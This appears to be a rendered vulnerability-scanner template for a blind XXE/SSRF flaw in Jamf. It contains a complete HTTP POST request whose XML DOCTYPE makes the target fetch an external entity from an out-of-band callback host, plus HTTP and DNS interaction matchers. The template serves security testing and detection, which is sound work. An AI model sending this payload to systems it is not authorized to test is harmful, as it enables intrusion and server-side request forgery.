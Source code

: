 ### URL

- {{BaseURL}}

### Matchers

**Type - word**

- part - interactsh_protocol
- name - http
- words
  1. http

**Type - word**

- part - interactsh_protocol
- name - dns
- words
  1. dns

---

# JAMF Blind XXE / SSRF

- severity - medium
- tags - xxe,ssrf,jamf

## Requests

### Step - 1

```
POST /client HTTP/1.1
Host: {{Hostname}}
Content-Type: application/xml

<?xml version='1.0' encoding='UTF-8' standalone="no"?>
<!DOCTYPE jamfMessage SYSTEM "http://{{interactsh-url}}/test.xml">
<ns2:jamfMessage xmlns:ns3="http://www.jamfsoftware.com/JAMFCommunicationSettings" xmlns:ns2="http://www.jamfsoftware.com/JAMFMessage">
  <device>
    <uuid>&test;</uuid>
    <macAddresses />
  </device>
  <application>com.jamfsoftware.jamfdistributionserver</application>
  <messageTimestamp>{{unix_time()}}</messageTimestamp>
  <content xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="ns2:ResponseContent">
    <uuid>00000000-0000-0000-0000-000000000000</uuid>
    <commandType>com.jamfsoftware.jamf.distributionserverinventoryrequest</commandType>
    <status>
      <code>1999</code>
      <timestamp>{{unix_time()}}</timestamp>
    </status>
    <commandData>
      <distributionServerInventory>
        <ns2:distributionServerID>34</ns2:distributionServerID>
      </distributionServerInventory>
    </commandData>
  </content>
</ns2:jamfMessage>

```
